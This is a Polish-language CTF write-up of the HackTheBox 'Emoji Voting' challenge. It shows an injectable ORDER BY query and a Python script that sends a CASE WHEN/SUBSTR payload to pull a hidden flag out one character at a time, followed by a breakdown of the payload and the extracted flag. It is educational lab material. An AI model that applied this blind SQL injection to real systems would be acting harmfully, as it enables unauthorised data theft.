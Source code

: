 ```yaml
---
Źródło: https://www.youtube.com/watch?v=WmCioU9F2_8 (John Hammond)
Event: HackTheBox Cyber Apocalypse CTF
Challenge: Emoji Voting
---
```


# Wygląd platformy

![platforma](./platform.png)

# Wektor ataku
```python
let query = `SELECT * FROM emojis ORDER BY ${ order }`;
```


# Fragment exploita

```python
...

# znalezione wcześniej
table_name = "flag_82f881e798"

leaked_data = list("CHTB{")

# &, %, $   to znaki specjalne dla SQL    
bruteforce_alphabet = string.printable.replace("&", "").replace("%", "").replace("$", "")

while True:
    for character in bruteforce_alphabet:
        # SQL jako początkowy indeks bierze 1
        position = len(leaked_data) + 1

        # wyślij requesta z payloadem i odbierz odpowiedź
        r = requests.post(
            url + "api/list",
            data ={
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC "
            }
        )

        # przetwórz odpowiedź jako JSON
        j = r.json()

        # jeśli trafiłeś na dobry znak to szukaj kolejnego
        if j[0] == {'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}:
            leaked_data.append(character)
            break

        print(f"proba {''.join(leaked_data) + character}")

...
```

# 1.
```sql
(SELECT SUBSTR(flag,{position},1) FROM {table_name})
```
> wybierz jeden znak z pola **flag** na pozycji **position** z tabeli **flag_82f881e798**

# 2.
```sql
CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END
CASE WHEN (...)='{character}' THEN count ELSE id END
```
> jeśli znak się zgadza sortuj według **count**, jeśli nie to według **id**

# 3.
```sql
(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC
(...) ASC  
```
> sortuj **rosnąco (ascending)** po wybranej kolumnie

## Przypadek count (znak pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY count ASC`;
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

## Przypadek id (znak NIE pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY id ASC`;
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

# Wynik
```
...
Hit: CHTB{order_me_this_juicy_
Hit: CHTB{order_me_this_juicy_i
Hit: CHTB{order_me_this_juicy_in
Hit: CHTB{order_me_this_juicy_inf
Hit: CHTB{order_me_this_juicy_info
Hit: CHTB{order_me_this_juicy_info}
```

